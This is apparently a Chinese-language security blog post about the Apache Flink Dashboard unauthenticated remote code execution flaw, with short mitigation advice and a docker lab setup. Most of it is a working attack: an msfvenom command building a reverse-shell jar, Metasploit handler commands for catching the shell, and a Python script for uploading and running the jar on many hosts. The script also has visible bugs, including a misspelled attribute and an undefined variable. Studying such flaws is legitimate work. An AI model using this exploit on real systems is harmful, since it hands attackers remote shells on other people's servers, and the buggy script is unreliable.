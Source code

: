 ```yaml
---
layout: post
title: Apache Flink 远程代码执行漏洞
categories: [安全漏洞]
description: apache flink 漏洞案例

keywords: 安全漏洞, flink
---
```




# 前言

**漏洞危害**：
Apache Flink 是一个分布式大数据处理引擎，可对有限数据流和无限数据流进行有状态计算。可部署在各种集群环境，对各种大小的数据规模进行快速计算。 Apache Flink Dashboard 存在一个远程代码执行漏洞。该漏洞无需攻击者进行认证，即可通过dashboard上传一个恶意的Jar包来远程执行代码。 

**漏洞级别**：高危

**影响范围**： <= 1.9.1(最新版本)

修复建议：

1．请勿将使用的Flink集群在公网曝露；
2． 配置Flink访问白名单； 
3． 禁止公网对于8081端口（FLink默认端口）的访问流量； 
4． 额外配置相关的认证策略；


## 环境搭建:


使用docker-compose.yml

```
version: "2.2"
services:
  jobmanager:
    image: flink:1.9.1
    network_mode: "host"
    command: jobmanager
    environment:
      - |
        FLINK_PROPERTIES=
        jobmanager.rpc.address: jobmanager

  taskmanager:
    image: flink:1.9.1
    network_mode: "host"
    depends_on:
      - jobmanager
    command: taskmanager
    scale: 1
    environment:
      - |
        FLINK_PROPERTIES=
        jobmanager.rpc.address: jobmanager
        taskmanager.numberOfTaskSlots: 2

```
在docker-compose目录下执行：

```
docker-compose up
```
> docker版本没复现成果，后续找原因

启动之后可以访问localhost:8081

## 漏洞复现

1. 打开MSF 生成一个 jar 木马

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=<靶机地址>  LPORT=4444 -f jar > testone.jar

```



![](https://pic4.zhimg.com/80/v2-fb6411d6734ccaf423e2e6b42ec9368f_720w.jpg)

2. 点击 Add 上传 jar 文件

![](https://img-blog.csdnimg.cn/img_convert/c84e6b0ac458b198125c31cf324708dc.png)

3、设置监听端口

```

msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload java/shell/reverse_tcp 
payload => java/shell/reverse_tcp
msf5 exploit(multi/handler) > set lhost XX.XXX.XX.61
lhost => XX.XXX.XX.61
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run
```

4. 点击下 submit

![](https://img-blog.csdnimg.cn/img_convert/d16e5fe01f7c548e0510df8a5af86509.png)


5、反弹shell成功


## 0x03 批量化测试脚本

```

import sys
import json
import requests
 
def flink_check(vuln_url):
    r = requests.get(vuln_url)
    if r.status_code == 200 and len(r.content) > 0:
        print(vuln_url + 'may has Apache Flink Web Dashboard RCE vul')
        upload_jar(vuln_url)
 
    else:
        print(vuln_url + 'does not have Apache Flink Web Dashboard RCE vul')
 
 
def upload_jar(vuln_url):
    upload_url = vuln_url + '/upload'
    files = {
        'file':open(sys.argv[2],'rb')
    }
    r = requests.post(upload_url, files=files)
    if r.status_codes== 200 and 'filename' in r.content:
        print('upload success')
        json_str = json.loads(r.content)
        filename = json_str['filename'].split('/')[-1]
        submit_jar(vuln_url,filename)
 
    else:
        print('faild')
 
def submit_jar(vuln_url,filename):
    submit_url = vuln_url + filename + '/run?entry-class=metasploit.Payload'
    url = vuln_url[:-4]
    headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:55.0) Gecko/20100101 Firefox/55.0',
    'Accept': 'application/json, text/plain, */*',
    'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/json',
    'Referer': '%s' % url,
    'Content-Length': '123',
    'Connection': 'close'
    }
    payload = {
        "entryClass":"metasploit.Payload",
        "parallelism": 0,
        "programArgs": 0,
        "savepointPath": 0,
        "allowNonRestoredState": 0
    }
 
    r = requests.post(submit_url, headers=headers, data=payload, proxies=proxies)
    if r.status_code == 500 and 'org.apache.flink.client.program.ProgramInvocationException' in r.content:
        print("[+] Poc Send Success!\n")
        # print 'msfconsole  -q  -x "use exploit/multi/handler;set payload java/meterpreter/reverse_tcp;set lhost 10.10.20.166;set lport 8989;run"\n'
    else:
        print("[+] Poc Send Fail!")
 
"""
only for dected:
def POC_check(vuln_url):
    res = requests.get(url=vuln_url, timeout=3)
    data = {
        'msg': res.json(),
        'state': 1,
        'url': url,
    }
"""
 
 
if __name__ == '__main__':
    if len(sys.argv) == 3:
        ip = sys.argv[1]
        port = sys.argv[2]
        url = 'http://' + ip + ':' + port
        vuln_url = url + '/jars'
        flink_check(vuln_url=vuln_url)
 
    elif len(sys.argv) == 2:
        ip = sys.argv[1]
        port = '8081'
        url = 'http://' + ip + ':' + port
        vuln_url = url + '/jars'
        flink_check(vuln_url=vuln_url)
```
